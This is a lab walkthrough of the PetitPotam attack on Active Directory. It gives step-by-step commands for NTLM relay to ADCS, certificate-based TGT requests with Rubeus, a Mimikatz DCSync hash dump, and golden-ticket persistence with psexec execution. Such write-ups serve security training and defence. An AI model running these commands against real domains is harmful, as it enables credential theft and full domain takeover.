# Introduction
- The **PetitPotam attack** is a technique where we abuse the **printer bug** to make a **domain controller** authenticate to our **kali machine**.
- *Relaying the captured authentication* to the **web interface of AD Certificate services (ADCS)** allows us to get the **certificate of the domain controller computer account**.
- *Having this certificate* can let us **request a TGT for the computer account**.
- *With a TGT of a Domain Controller's machine account,* we can abuse its **DCSync** right on the domain to retrieve **a full dump containing all domain users' NTLM hashes**.
- *Having all user hashes and using them with a simple Pass-the-Hash attack,* we can obtain **code execution as a Domain Admin**.
- **Persistence** can also be established with a **golden ticket** since the `krbtgt` account hash would be compromised.

# Lab Setup and conditions
## 1. DC.lab.local (192.168.126.129)
A Domain Controller with **Active Directory Certificate Services Web Enrollment** enabled





## 2. DC2.lab.local (192.168.126.130)
Another Domain Controller (*PrintSpooler Service must be running to force authentication. An attacker can wait for this to happen naturally but it could take some time*)



## 3. Kali Machine (192.168.126.132)
for triggering authentication and relaying to ADCS Web UI.



## 4. Windows Machine (192.168.126.128)
for requesting a TGT and doing the DCSync attack (Shouldn't be in the domain, but should have the DC as its DNS).



## 5. normal user account (Lab\JohnSmith)
A regular domain user with no special privileges.



# Steps to Create
1. Set up NTLM Relay on our attacker host
2. Use PetitPotam to force authentication from a domain controller back to the relaying kali machine
3. Relay authentication to ADCS Web UI
4. Recieve base64 certificate for the domain controller's computer account
5. use Rubeus.exe on the windows machine to request a TGT for that account using the certificate
6. *Having the TGT in memory,* use Mimikatz.exe to do a DCSync attack
7. Grab any domain admin's hash to have code execution
8. (Optional) create a golden ticket for persistence

# 1. Setting up NTLM Relay on our attacker host
`ntlmrelayx.py -t http://<CAServer>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController`



# 2. Use PetitPotam to force authentication from a domain controller back to the relaying kali machine
`python3 PetitPotam.py -d <DOMAIN_FQDN> -u <USERNAME> -p <PASSWORD> <KALI> <TARGET_DC>`



# 3. Relay authentication to ADCS Web UI

# 4. Recieve base64 certificate for the domain controller's computer account



# 5. use Rubeus.exe on the windows machine to request a TGT for that account using the certificate

`.\Rubeus.exe asktgt /outfile:kirbi /dc:<DOMAINCONTROLLER> /domain:<DOMAIN_FQDN> /user:<CAPTURED_DC_COMPUTER_ACCOUNT_NAME> /ptt /certificate:<CAPTURED_BASE64_CERTIFICATE>`





# 6. *Having the TGT in memory,* use Mimikatz.exe to do a DCSync attack
`lsadump::dcsync /domain:<DOMAINFQDN> /user:<TARGET_USER>`



# 7. Grab any domain admin's hash to have code execution



# 8. (Optional) create a golden ticket for persistence
Domain SID Lookup: `lookupsid.py <DOMAIN_FQDN>/<USERNAME>@<DC_IP>`



Obtaining `krbtgt` hash: `lsadump::dcsync /domain:<DOMAIN_FQDN> /user:krbtgt`



Golden ticket creation: `ticketer.py -nthash <KRBTGT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_FQDN> <CAN_BE_NON_EXISTING_USERNAME>`



Exporting ticket to environment: `export KRB5CCNAME=/<CHOSEN_USERNAME>.ccache`

Command execution using ticket: `psexec.py <DOMAIN_FQDN>/<CHOSEN_USERNAME>@<DC_FQDN> -k -no-pass`

